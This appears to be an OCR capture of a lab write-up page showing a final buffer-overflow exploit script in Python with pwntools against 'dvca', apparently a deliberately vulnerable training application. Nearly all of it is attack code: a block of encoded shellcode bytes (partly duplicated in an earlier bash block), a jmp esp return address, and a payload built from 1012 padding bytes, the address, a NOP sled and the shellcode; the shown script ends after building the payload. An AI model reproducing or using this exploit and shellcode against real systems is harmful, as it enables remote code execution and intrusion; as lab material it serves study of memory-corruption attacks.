 ```bash
buf += "\xf9\x8c\xe1\x1c\x14\xd8\x9b\x7f\x71\x2d\x96\x7f\x81"
buf += "\x39\xa1\x0c\xb3\xe6\x19\x9a\xff\x6f\x84\x5d\xff\x45"
buf += "\x70\xf1\xfe\x65\x81\xd8\xc4\x32\xd1\x72\xec\x3a\xba"
buf += "\x82\x11\xef\x6d\xd2\xbd\x40\xce\x82\x7d\x31\xa6\xc8"
buf += "\x71\x6e\xd6\xf3\x5b\x07\x7d\x0e\x0c\xe8\x2a\x28\xcd"
buf += "\x80\x28\x48\xeb\xc4\xa4\xae\x99\xf4\xe0\x79\x36\x6c"
buf += "\xa9\xf1\xa7\x71\x67\x7c\xe7\xfa\x84\x81\xa6\x0a\xe0"
buf += "\x91\x5f\xfb\xbf\xcb\xf6\x04\x6a\x63\x94\x97\xf1\x73"
buf += "\xd3\x8b\xad\x24\xb4\x7a\xa4\xa0\x28\x24\x1e\xd6\xb0"
buf += "\xb0\x59\x52\x6f\x01\x67\x5b\xe2\x3d\x43\x4b\x3a\xbd"
buf += "\xcf\x3f\x92\xe8\x99\xe9\x54\x43\x68\x43\x0f\x38\x22"
buf += "\x03\xd6\x72\xf5\x55\xd7\x5e\x83\xb9\x66\x37\xd2\xc6"
buf += "\x47\xdf\xd2\xbf\xb5\x7f\x1c\x6a\x7e\x8f\x57\x36\xd7"
buf += "\x18\x3e\xa3\x65\x45\xc1\x1e\xa9\x70\x42\xaa\x52\x87"
buf += "\x5a\xdf\x57\xc3\xdc\x0c\x2a\x5c\x89\x32\x99\x5d\x98"
```

script exploit final

```python
#dvca_bofexploit.py
#!/usr/local/bin/python

from pwn import *

def terima(p):
 data = p.recv(1024)
 log.info("recv: " + data)
def kirim(p, payload):
 p.sendline(payload)
 log.info("send: "+ payload)

buf =  ""
buf += "\xb8\x46\x74\x2a\x7f\xd9\xd0\xd9\x74\x24\xf4\x5e\x33"
buf += "\xc9\xb1\x52\x31\x46\x12\x03\x46\x12\x83\x80\x70\xc8"
buf += "\x8a\xf0\x91\x8e\x75\x08\x62\xef\xfc\xed\x53\x2f\x9a"
buf += "\x66\xc3\x9f\xe8\x2a\xe8\x54\xbc\xde\x7b\x18\x69\xd1"
buf += "\xcc\x97\x4f\xdc\xcd\x84\xac\x7f\x4e\xd7\xe0\x5f\x6f"
buf += "\x18\xf5\x9e\xa8\x45\xf4\xf2\x61\x01\xab\xe2\x06\x5f"
buf += "\x70\x89\x55\x71\xf0\x6e\x2d\x70\xd1\x21\x25\x2b\xf1"
buf += "\xc0\xea\x47\xb8\xda\xef\x62\x72\x51\xdb\x19\x85\xb3"
buf += "\x15\xe1\x2a\xfa\x99\x10\x32\x3b\x1d\xcb\x41\x35\x5d"
buf += "\x76\x52\x82\x1f\xac\xd7\x10\x87\x27\x4f\xfc\x39\xeb"
buf += "\x16\x77\x35\x40\x5c\xdf\x5a\x57\xb1\x54\x66\xdc\x34"
buf += "\xba\xee\xa6\x12\x1e\xaa\x7d\x3a\x07\x16\xd3\x43\x57"
buf += "\xf9\x8c\xe1\x1c\x14\xd8\x9b\x7f\x71\x2d\x96\x7f\x81"
buf += "\x39\xa1\x0c\xb3\xe6\x19\x9a\xff\x6f\x84\x5d\xff\x45"
buf += "\x70\xf1\xfe\x65\x81\xd8\xc4\x32\xd1\x72\xec\x3a\xba"
buf += "\x82\x11\xef\x6d\xd2\xbd\x40\xce\x82\x7d\x31\xa6\xc8"
buf += "\x71\x6e\xd6\xf3\x5b\x07\x7d\x0e\x0c\xe8\x2a\x28\xcd"
buf += "\x80\x28\x48\xeb\xc4\xa4\xae\x99\xf4\xe0\x79\x36\x6c"
buf += "\xa9\xf1\xa7\x71\x67\x7c\xe7\xfa\x84\x81\xa6\x0a\xe0"
buf += "\x91\x5f\xfb\xbf\xcb\xf6\x04\x6a\x63\x94\x97\xf1\x73"
buf += "\xd3\x8b\xad\x24\xb4\x7a\xa4\xa0\x28\x24\x1e\xd6\xb0"
buf += "\xb0\x59\x52\x6f\x01\x67\x5b\xe2\x3d\x43\x4b\x3a\xbd"
buf += "\xcf\x3f\x92\xe8\x99\xe9\x54\x43\x68\x43\x0f\x38\x22"
buf += "\x03\xd6\x72\xf5\x55\xd7\x5e\x83\xb9\x66\x37\xd2\xc6"
buf += "\x47\xdf\xd2\xbf\xb5\x7f\x1c\x6a\x7e\x8f\x57\x36\xd7"
buf += "\x18\x3e\xa3\x65\x45\xc1\x1e\xa9\x70\x42\xaa\x52\x87"
buf += "\x5a\xdf\x57\xc3\xdc\x0c\x2a\x5c\x89\x32\x99\x5d\x98"

jesp = 0x133712f0

evil = "A"*1012 + p32(jesp) + "\x90"*10 + buf
```